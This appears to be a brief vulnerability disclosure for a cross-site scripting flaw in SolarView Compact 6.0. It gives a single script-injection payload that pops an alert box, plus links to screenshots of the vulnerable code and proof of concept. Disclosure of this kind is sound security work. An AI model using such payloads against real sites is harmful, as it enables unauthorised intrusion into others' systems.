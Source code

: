 # SolarView_Compact_6.0_xss

### payload
```
/"><script>alert("XSS")</script>
```
#### Vulnerability code

![image](https://user-images.githubusercontent.com/72059221/169168747-55426da3-9150-4266-b4e3-b0bcfbbdd410.png)



#### POC

![image](https://user-images.githubusercontent.com/72059221/169169114-f6b871e6-8b6a-46fa-b007-54588089e2fe.png)



![image](https://user-images.githubusercontent.com/72059221/169169170-0936209d-bad8-4c0b-99f5-f382774670f9.png)


